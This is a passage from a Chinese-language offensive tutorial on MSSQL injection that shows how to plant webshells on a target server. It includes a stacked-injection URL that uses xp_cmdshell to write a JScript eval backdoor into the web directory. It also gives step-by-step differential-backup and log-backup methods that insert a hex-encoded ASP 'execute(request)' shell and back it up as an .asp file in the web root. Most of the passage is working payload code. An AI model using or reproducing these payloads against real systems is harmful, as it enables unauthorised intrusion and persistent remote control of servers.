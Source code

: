 ```
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;

```

由于cmd写webshell的主意这些转义的问题 当然条件允许也可以使用certutil或者vbs什么的来下载


### 0x03 差异备份

能通过xp_cmdshell拿下webshell的情况现在也不算多了，备份拿shell还算常见 具体步骤搞过的朋友都知道。

```
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--

```


差异备份我们有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到c盘根目录


当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用前面提到的 定义局部变量来执行。





### 0x04 LOG备份

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```
alter database 库名 set RECOVERY FULL

```

```
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'

```

相对于差异备份，log备份的好处就是备份出来的webshell的文件大小非常的小我数据库没啥东西，前面备份出来2000k这个只有83k。



# 第八章 MSSQL提权与站库分离
